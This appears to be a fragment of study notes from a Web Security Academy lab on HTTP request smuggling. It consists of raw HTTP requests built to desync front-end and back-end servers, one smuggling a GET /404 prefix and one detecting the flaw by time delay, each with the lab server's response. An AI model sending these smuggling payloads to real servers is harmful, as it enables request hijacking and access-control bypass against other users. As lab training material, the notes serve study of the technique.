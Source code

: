- request
```http
POST / HTTP/1.1
Host: 0a6500df03127c4d814e75e300a100a0.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /404 HTTP/1.1\r\n
Content-Length: 15\r\n


```
- response
```http
HTTP/1.1 404 Not Found
Content-Type: application/json; charset=utf-8
Set-Cookie: session=xoMJbTEes2ryW1PlMaosC136QVh3RPWo; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 11\r\n
\r\n
"Not Found"
```



##### using time delay
- request
```http
POST / HTTP/1.1
Host: 0a6500df03127c4d814e75e300a100a0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Connection: keep-alive
Transfer-Encoding: chunked\r\n
\r\n
7\r\n
A\r\n
xxx\r\n

```
- response
```http
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 125\r\n
\r\n
<html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Communication timed out</h1></body></html>
```
